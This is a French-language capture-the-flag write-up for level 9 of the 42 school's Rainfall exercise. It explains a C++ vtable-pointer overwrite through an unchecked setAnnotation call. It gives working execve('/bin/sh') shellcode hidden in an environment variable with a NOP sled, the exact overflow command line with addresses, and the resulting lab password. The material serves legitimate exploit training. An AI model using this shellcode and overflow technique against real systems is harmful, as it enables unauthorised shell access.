 # Write-up : Rainfall - Level 9

## Objectif

L'objectif du niveau 9 du projet Rainfall (de l'école 42) est de parvenir à exécuter du shellcode via une exploitation de type **virtual method call hijacking**.

Ce niveau met en jeu l'utilisation de classes C++ avec des méthodes virtuelles, ainsi qu'une mauvaise gestion de la mémoire permettant une exploitation.

---

## Analyse du binaire

La fonction `main` alloue dynamiquement deux objets de type `N` avec deux tailles différentes et des paramètres différents :

```asm
call   80486f6 <_ZN1NC1Ei>  ; constructeur de l'objet N
```

Les pointeurs vers ces objets sont ensuite stockés sur la stack, puis l'un des objets appelle une méthode virtuelle :

```asm
804867c:
 mov    0x10(%esp),%eax         ; eax = pointeur vers l'objet vulnérable
 mov    (%eax),%eax             ; déréférence : vtable
 mov    (%eax),%edx             ; edx = pointeur vers la méthode virtuelle
...
 call   *%edx                   ; appel de la fonction
```

### Vulnérabilité

La méthode `setAnnotation(char *)` est appelée sur le premier objet `N`. Or, cette méthode ne vérifie pas la taille de l'argument, ce qui permet d'écraser la **vtable pointer** de l'objet.

Cela nous permet de **rediriger l'appel de méthode virtuelle vers notre shellcode**.

---

## Exploitation

### Injection du Shellcode dans l'environnement

On injecte un shellcode standard (execve("/bin/sh")) dans une variable d'environnement nommée `SC` :

```bash
export SC=$(python -c 'print("\x90"*1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68" + "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")')
```

Avec GDB, on récupère l'adresse du shellcode (dans la variable d'environnement SC) en mémoire, par exemple :

```bash

x/200s *((char**)environ)

0xbfffff2a:      "\220\220\220\061\300Ph//shh/bin\211\343PS\211ᙰ\v̀"

```

### Construction du Payload

1. On place l'adresse du shellcode au début.
2. On remplit avec des `"A"` jusqu'à l'adresse de la vtable pointer.
3. On remplace la vtable pointer par un pointeur pointant vers l'adresse du shellcode.

```bash
./level9 $(python -c 'print("\x2a\xff\xff\xbf" + "A"*104 + "\x0c\xa0\x04\x08")')
```

* `\x2a\xff\xff\xbf` : pointeur vers l'environnement `SC`
* `"A"*104` : padding pour atteindre la vtable
* `\x0c\xa0\x04\x08` : pointeur contrôlé, e.g. pointant sur la vtable modifiée ou directement sur le shellcode

---

## Résultat de l'exploitation

Exécution du programme avec le payload :

```bash
$ ./level9 $(python -c 'print("\x2a\xff\xff\xbf" + "A"*104 + "\x0c\xa0\x04\x08")')
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

---

## Conclusion

Ce challenge est un excellent exemple de :

* Compréhension de la mémoire en C++
* Exploitation de méthodes virtuelles (vtable hijacking)
* Injection de shellcode via les variables d'environnement

> L’adresse du shellcode peut varier selon les machines. Il est important de vérifier avec GDB pour ajuster.
